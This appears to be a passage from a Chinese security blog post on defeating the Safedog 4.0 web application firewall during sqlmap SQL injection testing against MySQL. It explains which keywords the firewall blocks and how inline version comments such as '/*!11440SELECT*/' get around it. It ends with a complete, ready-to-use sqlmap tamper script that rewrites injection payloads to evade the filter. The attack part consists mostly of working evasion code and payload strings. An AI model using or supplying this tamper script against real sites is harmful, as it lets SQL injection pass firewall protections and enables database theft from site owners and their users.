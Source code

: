   

测试过程中发现sqlmap在进行联合注入测试时，会使用UNION ALL SELECT

语句，同样的UNION ALL SELECT语句也是UNION ALL不拦截，  

  

UNION ALL SELECT才会被拦截，所以也是只需要对SELECT进行内联注释就行。

  
最后结果可以看到，所有类型的注入都可以跑出来  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210816090628.png)

  

但是在测试查询所有数据库名时sqlmap会使用USER()和SESSION_USER()函数，

还是用之前的方法，在字母和括号之间使用内联`USER/*!77777cz*/()`,

但是这样的话SESSION_USER()函数也会被转换成`SESSION_USER/*!77777cz*/()`然后就会报错。

![](https://gitee.com/fuli009/images/raw/master/public/20210816090629.png)

  
所以要单独对SESSION_USER()使用另一种内联来绕过，/!11440SESSION_USER()/

最后效果  

![]()

  

# 最终tamper

#!/usr/bin/env python  
"""  
Copyright (c) 2006-2019 sqlmap developers ([url]http://sqlmap.org/[/url])  
See the file 'LICENSE' for copying permission  
Author:LUSHUN  
"""  
  
import re  
import os  
  
from lib.core.data import kb  
from lib.core.enums import PRIORITY  
from lib.core.common import singleTimeWarnMessage  
from lib.core.enums import DBMS  
  
__priority__ = PRIORITY.LOW  
  
def dependencies():  
   singleTimeWarnMessage("Bypass safedog4.0'%s' only %s" %
(os.path.basename(__file__).split(".")[0], DBMS.MYSQL))  
  
def tamper(payload, **kwargs):  
       payload=payload.replace('AND','/*!11440AND*/')  
       payload=payload.replace('ORDER','order/*!77777cz*/')  
       payload=payload.replace("SELECT","/*!11440SELECT*/")  
       payload=payload.replace("SLEEP(","sleep/*!77777cz*/(")  
       payload=payload.replace("UPDATEXML(","UPDATEXML/*!77777cz*/(")  
       payload=payload.replace("SESSION_USER()","/*!11440SESSION_USER()*/")  
       payload=payload.replace("USER())","USER/*!77777cz*/())")  
       payload=payload.replace("DATABASE()","DATABASE/*!77777cz*/()")  
       return payload  
